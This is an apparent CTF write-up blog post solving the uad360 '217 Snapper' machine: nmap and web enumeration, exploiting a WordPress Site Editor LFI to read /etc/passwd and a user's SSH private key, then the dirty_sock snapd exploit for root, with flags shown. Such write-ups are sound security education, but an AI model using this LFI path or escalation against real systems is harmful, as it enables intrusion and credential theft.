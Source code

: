 ```yaml
---
layout: post
title: 217 Snapper - uad360
author: devploit
item_image: https://i.imgur.com/zOPzzBc.png
tags: ctf uad360 boot2root lfi wordpress snap
---
```


### Challenge:

**Level:** Easy-Medium

**Description:**

>**217 Snapper**
>
>Get user and root flags.
>author: torombolo

### User write-up:

We start by scanning the IP to get active services.

```
nmap -sV -Pn -T5 192.168.105.111
Starting Nmap 7.70 ( https://nmap.org ) at 2019-06-14 09:15 BST
Nmap scan report for 192.168.105.111
Host is up (0.00041s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.7p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.34 ((Ubuntu))
MAC Address: 52:54:00:A8:CA:93 (QEMU virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.41 seconds
```

If we enum the web we will see interesting paths. The most prominent is the wordpress installed.

```
/.hta (Status: 403)
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/blog (Status: 301) ----------------------
/index.html (Status: 200)
/index.php (Status: 200)
/javascript (Status: 301)
/server-status (Status: 403)
```

The most logical way to perform is to do a first scan with wpscan, which will show us a LFI (local file inclusion) vulnerability.

```
 | [!] 1 vulnerability identified:
 |
 | [!] Title: Site Editor <= 1.1.1 - Local File Inclusion (LFI)
 |     References:
 |      - https://wpvulndb.com/vulnerabilities/9044
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-7422
 |      - http://seclists.org/fulldisclosure/2018/Mar/40
 |      - https://github.com/SiteEditor/editor/issues/2
```

Basically, the vulnerability explains that by visiting a specific path we can list computer files. The path in question is: http://(HOST)/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=(FILE_TO_LIST). We will do the PoC with /etc/passwd.

![Branching](https://i.imgur.com/Gn0nTWm.png)

**It works!**

Now we can list the ssh private key of one of the users to be able to connect to the machine.

* User: masterblaster
* Path: /home/masterblaster/.ssh/id_rsa

![Branching](https://i.imgur.com/biFPnNZ.png)

If we copy the rsa key to our machine and try to connect using it... (Remember to give 600 permissions to the file).

```
➜  ~ ssh masterblaster@192.168.105.111 -i .ssh/snapper
The authenticity of host '192.168.105.111 (192.168.105.111)' can't be established.
ECDSA key fingerprint is SHA256:95id/6gGifLj0lHnpKkICP9wAeECnGU/SHstsKBQ1Vo.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '192.168.105.111' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 18.10 (GNU/Linux 4.18.0-20-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


239 packages can be updated.
2 updates are security updates.

Last login: Sat Jun  8 17:18:17 2019 from 192.168.1.110
masterblaster@masterblaster-Standard-PC-Q35-ICH9-2009:~$ ls
Desktop  Documents  Downloads  examples.desktop  flag.txt  Music  Pictures  Public  Templates  Videos
masterblaster@masterblaster-Standard-PC-Q35-ICH9-2009:~$ cat flag.txt
uad360{b2143fa23fcfb6145f1bc9cca80dcbab}
masterblaster@masterblaster-Standard-PC-Q35-ICH9-2009:~$ 
````

All right! We have user and the first flag

`User flag: uad360{b2143fa23fcfb6145f1bc9cca80dcbab}`



### Root write-up:

To get the root flag, if we list enough we can see that the snap version is not the most recent (the name of the machine helps to realize).

```
masterblaster@masterblaster-Standard-PC-Q35-ICH9-2009:~$ snap --version
snap    2.35.5+18.10
snapd   2.35.5+18.10
series  16
ubuntu  18.10
kernel  4.18.0-20-generic
```

That particular version is vulnerable to local privilege escalation as we can see [here](https://www.exploit-db.com/exploits/46361). The instructions to follow for the exploitation are:

* Create an account at the https://login.ubuntu.com/.
* After confirming it, edit your profile and upload an SSH public key.
* Run the exploit specifying the private key associated with the public upload to the web.

As we have said, we created the account in the link and we will upload the ssh key to its corresponding section.

![Branching](https://i.imgur.com/IJAtcD6.png)

In order to avoiding upload our personal ssh key for obvious reasons, we created a new one in a linux as we see here:

```
➜  /tmp ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/root/.ssh/id_rsa): /root/.ssh/snapper_root
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /root/.ssh/snapper_root.
Your public key has been saved in /root/.ssh/snapper_root.pub.
The key fingerprint is:
SHA256:hRkMNEgC26et0GnVyhmW0MPGzZDZdPNUs8MFlgYXcF0 root@kali
The key's randomart image is:
+---[RSA 2048]----+
|..o=o@=o+ ++O=..E|
| o oXo+o.B =o+.  |
|. ..*.. o o.+    |
| . O +   .   .   |
|. = =   S        |
| o .             |
|  .              |
|                 |
|                 |
+----[SHA256]-----+
```

We upload the generated public key. We pass the exploit and the private key to the vulnerable machine and launch it by specifying the key and the account mail.

```
masterblaster@masterblaster-Standard-PC-Q35-ICH9-2009:/dev/shm$ python3 snapd.py -u sugomum@uber-mail.com -k snapper_root

      ___  _ ____ ___ _   _     ____ ____ ____ _  _ 
      |  \ | |__/  |   \_/      [__  |  | |    |_/  
      |__/ | |  \  |    |   ___ ___] |__| |___ | \_ 
                       (version 1)

//=========[]==========================================\\
|| R&D     || initstring (@init_string)                ||
|| Source  || https://github.com/initstring/dirty_sock ||
|| Details || https://initblog.com/2019/dirty-sock     ||
\\=========[]==========================================//


[+] Slipped dirty sock on random socket file: /tmp/bgsfawbofu;uid=0;
[+] Binding to socket file...
[+] Connecting to snapd API...
[+] Sending payload...
[+] Success! Enjoy your new account with sudo rights!
Welcome to Ubuntu 18.10 (GNU/Linux 4.18.0-20-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


239 packages can be updated.
2 updates are security updates.

New release '19.04' available.
Run 'do-release-upgrade' to upgrade to it.


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

r00tdevploit@masterblaster-Standard-PC-Q35-ICH9-2009:~$ id
uid=1001(r00tdevploit) gid=1001(r00tdevploit) groups=1001(r00tdevploit)
r00tdevploit@masterblaster-Standard-PC-Q35-ICH9-2009:~$ sudo -s
root@masterblaster-Standard-PC-Q35-ICH9-2009:~# GGWP
```

**We got root shell!**

Finally we visit the path where the flag is.

```
root@masterblaster-Standard-PC-Q35-ICH9-2009:/root# cat flag.txt
uad360{fb9bf208b033aee53a16a5255b3b3039}
```

`Root Flag: uad360{fb9bf208b033aee53a16a5255b3b3039}`
